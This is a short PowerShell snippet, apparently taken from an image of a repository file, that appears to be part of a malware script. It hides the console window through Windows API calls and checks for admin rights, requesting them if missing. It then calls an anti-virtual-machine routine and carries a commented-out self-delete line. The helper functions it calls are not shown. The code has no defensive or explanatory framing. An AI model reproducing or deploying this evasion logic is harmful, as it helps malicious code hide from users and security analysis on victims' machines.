 function Hide-Console
{
    if (-not ("Console.Window" -as [type])) { 
        Add-Type -Name Window -Namespace Console -MemberDefinition '
        [DllImport("Kernel32.dll")]
        public static extern IntPtr GetConsoleWindow();
        [DllImport("user32.dll")]
        public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
        '
    }
    $consolePtr = [Console.Window]::GetConsoleWindow()
    $null = [Console.Window]::ShowWindow($consolePtr, 0)
}


if (CHECK_IF_ADMIN -eq $true) {
    Hide-Console
    Invoke-ANTIVM
    # Self-Destruct
	# Remove-Item $PSCommandPath -Force 
} else {
    Write-Host ("Please run as admin!") -ForegroundColor Red
    Start-Sleep -s 1
    Request-Admin
}
